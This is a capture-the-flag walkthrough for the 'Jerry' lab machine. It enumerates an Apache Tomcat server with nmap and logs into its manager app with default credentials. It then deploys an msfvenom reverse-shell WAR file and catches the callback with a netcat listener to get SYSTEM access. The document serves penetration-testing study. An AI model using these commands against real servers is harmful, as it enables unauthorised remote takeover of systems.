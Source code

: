 # Jerry without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -A -p- 10.10.10.95`**

* -T4 flag is to speed the scan up at a much faster pace.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports.

![Results of nmap scan](../.gitbook/assets/jerry-nmap.png)

#### Dissecting the results:

* We find that the only port that is open is port 8080. This port tends to be the second default choice to port 80, which is a webserver.
* We see the webserver version is Apache Tomcat/Coyote JSP engine 1.1.
* We also Apache Tomcat is version 7.0.88 which we can google more information on if we need to later.
* Finally, we see the OS scan believes it to most likely be a Windows machine.

### Navigating the Webserver

Since there isn't much to go off of, we navigate to the webserver to further enumerate. Type `10.10.10.95:8080` in the URL and we land on the following page:

![Home screen of Apache Tomcat](../.gitbook/assets/navigated-to-jerry-tomcat.png)

Your first instinct should be to click everything that can lead to a different webpage and see if we can find anywhere we can login, upload files, leaked credentials, etc. Our first few options should be to check out Server Status, Manager App, and Host Manager.

* According to Apache Tomcat's User Guide version 7 for each function
  * Server Status: [View the status of the server](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Server_Status).
  * Manager App: ["In many production environments, it is very useful to have the capability to deploy a new web application, or undeploy an existing one, without having to shut down and restart the entire container." followed by "Deploy a new web application from the uploaded contents of a WAR file."](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)
  * Host Manager: ["The Tomcat Host Manager application enables you to create, delete, and otherwise manage virtual hosts within Tomcat."](https://tomcat.apache.org/tomcat-7.0-doc/host-manager-howto.html)

With the list above, the Manager App appears to be an amazing option due to the ability to upload a WAR file, which can contain a reverse shell and ultimately give us access.

![](../.gitbook/assets/login-form.png)

We are prompted for login credentials, which we do not currently know so let's click 'Cancel' and we will be brought to the following page:

![](../.gitbook/assets/manager-login-cancelled.png)

We are brought to a 401 error page indicating we are not authorized to view Manager. We also see a sample username of **tomcat** and password of **s3cret** which are in fact some default credentials for tomcat. ****Let's try using these to login.

![](../.gitbook/assets/logging-into-manager-with-tomcat-s3cret-creds.png)

## Exploitation

Success! We were able to login. Now, we scroll to the bottom of the page to where we can see the 'Deploy' section. This is where we will upload a WAR file to gain a shell.

![](../.gitbook/assets/war-file-upload-location.png)

Next, we can google for a msfvenom payloads cheatsheet. I found mine at [https://netsec.ws/?p=331](https://netsec.ws/?p=331). 

![msfvenom war payload](../.gitbook/assets/msfvenom-war-payload.png)

We will need to edit this command for it to work. I will be editing mine to `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f war > shell.war` which will create a WAR file named shell.war and it will contain a reverse shell.

Next, we will set up a netcat listener to catch the shell.

`nc -nlvp 7777`

Browse for the WAR file and deploy it. It is now showing in Applications as /shell. 

![](../.gitbook/assets/war-file-deployed.png)

Once we click /shell, netcat will catch the shell as shown below.

![](../.gitbook/assets/reverse-shell.png)

Upon entering `whoami` we see we have system privileges and do not need to escalate from a lower level user. Grab the _**user.txt**_ and _**root.txt**_ flags using the command in the picture below.

![](../.gitbook/assets/whoami-and-flags-censored.png)

